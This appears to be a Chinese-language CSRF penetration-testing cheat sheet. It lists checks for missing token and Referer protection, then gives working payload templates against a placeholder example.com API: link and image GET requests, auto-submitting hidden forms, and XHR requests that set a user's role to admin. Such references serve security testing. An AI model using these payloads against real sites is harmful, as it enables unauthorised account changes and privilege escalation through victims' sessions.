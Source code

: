 	查看有无token等验证身份的参数，删掉后是否返回正常
	查看header中referer,origin参数，删掉后是否返回正常
	使用csrftester/burpsuite生成表单，以另一账号和浏览器打开测试
	去掉referer中域名后面的文件夹或文件
	替换二级域名
 #### GET需要用户交互
  	<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
 #### GET无用户交互
  	<img src="http://www.example.com/api/setusername?username=CSRFd">
 #### POST需要用户交互
  	<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
	 <input name="username" type="hidden" value="CSRFd" />
	 <input type="submit" value="Submit Request" />
	</form>
 #### POST无用户交互
	<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
	 <input name="username" type="hidden" value="CSRFd" />
	 <input type="submit" value="Submit Request" />
	</form>
	 
	<script>
	 document.getElementById("autosubmit").submit();
	</script>
 #### JSON GET
	<script>
	var xhr = new XMLHttpRequest();
	xhr.open("GET", "http://www.example.com/api/currentuser");
	xhr.send();
	</script>
 #### JSON POST
	<script>
	var xhr = new XMLHttpRequest();
	xhr.open("POST", "http://www.example.com/api/setrole");
	//application/json is not allowed in a simple request. text/plain is the default
	xhr.setRequestHeader("Content-Type", "text/plain");
	//You will probably want to also try one or both of these
	//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
	//xhr.setRequestHeader("Content-Type", "multipart/form-data");
	xhr.send('{"role":admin}');
	</script>

	<script>
	var xhr = new XMLHttpRequest();
	xhr.open("POST", "http://www.example.com/api/setrole");
	xhr.withCredentials = true;
	xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
	xhr.send('{"role":admin}');
	</script>